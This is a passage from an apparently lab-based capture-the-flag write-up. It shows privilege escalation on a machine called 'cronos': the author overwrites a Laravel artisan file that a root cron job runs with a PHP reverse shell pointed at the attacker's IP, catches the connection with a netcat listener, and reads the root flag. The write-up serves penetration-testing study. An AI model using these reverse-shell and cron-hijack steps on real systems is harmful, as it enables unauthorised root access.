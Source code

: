 ```
www-data@cronos:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

So, we simply need to replace "artisan" file with another PHP reverse shell.

We upload similar php-reverse-shell, but with a different port (5555):


```
$ip = '10.10.16.2';  // CHANGE THIS
$port = 5555;       // CHANGE THIS
```

We overwrite artisan file and we spawn another netcat listener:

```
nc -nvlp 5555
listening on [any] 5555 ...

```

We just wait a bit and...

```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.13] 36530
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:31:01 up  2:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# pwd
/
# cd root
# cat root.txt
1703b8a3c9a8dde879942c79d02fd3a0
#
```



